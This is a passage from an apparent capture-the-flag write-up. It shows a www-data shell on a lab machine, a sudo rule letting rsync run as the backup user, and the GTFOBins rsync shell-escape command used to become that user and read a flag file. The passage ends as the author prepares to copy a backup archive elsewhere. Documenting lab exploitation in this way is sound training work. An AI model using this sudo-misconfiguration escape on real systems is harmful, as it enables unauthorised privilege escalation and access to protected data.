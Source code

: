 Note that I URL encoded it, in order to have a valid URL.

```plain
www-data@backup:~/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@backup:~/html$ cd /backup
cd /backup
bash: cd: /backup: Permission denied
www-data@backup:~/html$ ls -ld /backup
ls -ld /backup
drwxrwx--- 1 backup backup 4096 May  4 09:03 /backup
```

There is a `/backup` folder, but we can't access it, only the `backup` user can.

Fortunately for us, there is an easy privesc to that user.

```
www-data@backup:~/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on backup:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on backup:
    (backup) NOPASSWD: /usr/bin/rsync
```

GTFOBins : https://gtfobins.github.io/gtfobins/rsync/

```plain
www-data@backup:~/html$ sudo -u backup /usr/bin/rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
<rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
id
uid=34(backup) gid=34(backup) groups=34(backup)
ls /backup
backup.sh
flag.txt
youtrack-1683190681.zip
...
cat /backup/flag.txt
Hero{n0t_0nly_hum4ns_c4n_b3_po1s3n3d}
```

#### Flag 3

As stated earlier, the welcome note mentions that the first backups where made during the administration account setup. Let's grab the oldest backup in the folder.

```plain
ls -alt | grep youtrack | tail -n 1
-rw-rw-r-- 1 dave   dave   691271 May  2 20:31 youtrack-1683836642.zip
```

We could work with it on this machine, but I'm going to send it to the `dev` machine where I have a stable ssh access.
